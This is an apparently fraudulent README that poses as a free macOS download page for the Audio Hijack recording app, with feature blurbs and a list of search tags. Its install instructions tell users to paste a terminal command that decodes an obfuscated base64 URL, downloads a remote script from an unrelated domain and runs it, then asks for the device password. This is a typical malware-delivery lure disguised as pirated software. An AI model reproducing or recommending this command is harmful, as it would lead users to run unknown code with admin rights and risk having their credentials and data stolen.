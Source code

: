 # 🎧 Audio Hijack — Record Any Audio on macOS

## ✅ Download Audio Hijack for Mac 

[![🚀 Download Audio Hijack 🟣](https://img.shields.io/badge/Download-Audio_Hijack-blueviolet?style=for-the-badge)](https://shuziktobehuman.github.io/huja/AudioHijack)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)



## 🌐 What is Audio Hijack?

Audio Hijack is a powerful macOS application that allows users to capture and record any audio from their Mac. Whether you're looking to save streaming music, capture podcast interviews, or enhance your microphone input, Audio Hijack offers an intuitive interface and flexible configuration to meet your needs.

Built by Rogue Amoeba, Audio Hijack supports complex routing setups, real-time audio effects, and high-quality recording options. It's ideal for podcasters, streamers, educators, and anyone who wants more control over their Mac's audio.

---

## 🖥️ Features at a Glance

- 🎙️ Record any audio playing on your Mac — from apps, browsers, and input devices  
- 🎚️ Apply real-time audio effects like EQ, compression, and reverb  
- 🎛️ Use the block-based interface to design custom audio workflows  
- 🔊 Perfect for podcasting, streaming, and radio-style broadcasts  
- 🎧 Supports scheduling, timed recordings, and silence monitoring  
- 💽 Save recordings in MP3, AAC, AIFF, WAV, and more  
- 📈 Monitor input/output levels and signal flow in real time  
- 🧩 Integrates with apps like Skype, Zoom, Safari, and more  
- 💻 Fully optimized for macOS, including Apple Silicon support  
- 🌙 Native dark mode and macOS accessibility features  

---

## 💡 Why Use Audio Hijack?

Audio Hijack makes audio capture simple, powerful, and visually intuitive. Instead of dealing with complex system configurations or third-party plugins, users can quickly drag and connect recording blocks to capture exactly what they want, with zero fuss.

From podcasters recording interviews, to professionals capturing live streams or system audio, Audio Hijack is an essential macOS tool. Its real-time processing and versatile recording options help create high-quality audio with minimal effort — all within a beautifully designed app.

---

[![⬇️ Download Audio Hijack Again 🟣](https://img.shields.io/badge/Download-Audio_Hijack-blueviolet?style=for-the-badge)](https://shuziktobehuman.github.io/huja/AudioHijack)

---

## 🖼️ Preview

![Audio Hijack Screenshot 1](https://i0.wp.com/sixcolors.com/wp-content/uploads/2015/01/hijack-soundboard-6c.jpg?ssl=1)  


---

## 📌 Tags

audio hijack mac, audio hijack, audio hijack pro, audio hijack download, audio hijack 3, audio hijack 3 download,  
audio hijack 4, audio hijack alternative mac, audio hijack alternative mac free, audio hijack app, audio hijack download mac, audio hijack free,  
audio hijack free download, audio hijack m1, audio hijack mac free, audio hijack mac free download, audio hijack mac full,  
audio hijack mac m1, audio hijack macos, audio hijack pro 2, audio hijack pro mac, audio hijack pro mac free,  
download audio hijack 3, download audio hijack for mac, hijack mac
